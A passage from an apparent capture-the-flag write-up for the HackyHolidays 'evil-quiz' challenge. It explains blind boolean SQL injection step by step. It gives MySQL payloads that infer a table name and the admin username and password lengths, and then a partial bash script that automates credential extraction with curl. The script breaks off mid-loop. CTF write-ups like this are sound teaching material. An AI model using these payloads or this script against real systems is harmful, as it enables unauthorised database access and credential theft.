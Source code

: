     `' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) = 97 # 
`

    First I am **SELECT**ing the first table of current DB, then using **substr** function, I am just selecting the first character of that table (note the `1,1`), in the end, I am converting that character to ascii (decimal form) and comparing if it is `=` to `97` (`97` in decimal means `a`). The output showed that indeed this statement is true, so first character (out of 5) of our table is **`a`**.

1.  So in this way, we can now select the second character using `substr(QUERY-THAT-RETURNS-TABLENAME,CHAR-NUMBER,1)` function, convert it to ascii and compare with decimal numbers from `97 to 122` (a-z). And repeat this step for the remaining characters.
    
    `' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,2,1))) = 100 #`

    (100 for **`"d"`**, output shows it is true as well) Following above steps, I found out the table name was indeed `admin`.

2. Now we have the table name, time to find out the column names. Here I did not really enumerated for the column names as I was quite sure that there will be `username` & `password` columns here.
3. Just as we found the table name, I used same steps to find the length of actual values (first row) of culumn `username` and `password`.
   
   ```
    => ' AND (length((select username from admin limit 0,1))) > 5 #  //false
    => ' AND (length((select username from admin limit 0,1))) = 5 #  //true

    => ' AND (length((select password from admin limit 0,1))) > 5 //true
    => ' AND (length((select password from admin limit 0,1))) > 10 //true
    => ' AND (length((select password from admin limit 0,1))) > 15 //true
    => ' AND (length((select password from admin limit 0,1))) > 20 //false
    => ' AND (length((select password from admin limit 0,1))) = 17 //true
   ```
4. So we have username with length **`5`** and password with length **`17`**. We can use a script to automate the whole process and find the username and password. I made a script which does the job, just following the steps like step 2 to step 3. After completion, this script outputs the usernamen/password in decimal form so we  need to convert it back to characters (decimal to string)
   
   **Script that finds the username**
   ```bash
    userNameLength=5;
    asciUser="";
    asciCode=97;
    for((i=1;i<=$userNameLength;i++)); do
        echo "Checking char $i aginst Ascii code:- ";
        while [ 1 ]; do
            echo -n "$asciCode ";
            query="' AND (ascii(substr((select username from admin limit 0,1) ,$i,1))) = $asciCode # ";
            cookie=$(curl -i -s "https://hackyholidays.h1ctf.com/evil-quiz" | grep session= | cut -d= -f2 | cut -d\; -f1);
            curl -i -s -k -X "POST" -b "session=$cookie" --data-binary "name=$query" "https://hackyholidays.h1ctf.com/evil-quiz" > /dev/null
            iscorrect=$(curl -i -s -L -X "POST" -b "session=$cookie" --data-binary "ques_1=0&ques_2=0&ques_3=0" "https://hackyholidays.h1ctf.com/evil-quiz/start" |  grep "There is" | cut -d \> -f2 | cut -d " " -f3);
            if [ $(echo $iscorrect) = 0 ]; then
                
                ((asciCode=asciCode+1));
                if [ $(echo $asciCode) = 123 ]; then
                    break;
                fi

            else
                echo -e "\n=> POSITION $i CHAR HAS ASCII CODE: $asciCode";
                asciUser+=$asciCode;
   ```